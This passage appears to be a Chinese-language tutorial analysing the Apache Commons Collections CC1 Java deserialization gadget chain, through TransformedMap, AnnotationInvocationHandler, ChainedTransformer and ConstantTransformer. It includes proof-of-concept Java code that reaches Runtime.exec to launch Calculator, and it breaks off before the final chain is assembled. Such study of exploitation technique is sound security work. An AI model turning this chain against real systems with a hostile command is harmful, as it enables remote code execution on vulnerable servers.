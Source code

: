 ![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)
`valueTransformer`变量可控  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)
但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)
再查看一下哪里调用了`checkSetValue()`方法，只有这一处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)
`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"});    
HashMap<Object,Object> map = new HashMap<>();    
map.put("key","value");    
Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
for(Map.Entry entry:transformedMap.entrySet()){    
    entry.setValue(r);  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)
接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)
这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"});    
HashMap<Object,Object> map = new HashMap<>();    
map.put("key","value");    
Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");    
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);    
annotationInvocationhandleconstructor.setAccessible(true);    
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);  
```  
但是这里存在两个问题  
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程  
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)
简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入  
```java  
Transformer[] transformers = new Transformer[]{    
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),    
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
还有一个问题，无法控制`setValue()`里面的参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png) 
这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)
所以完善一下上面的`poc`  
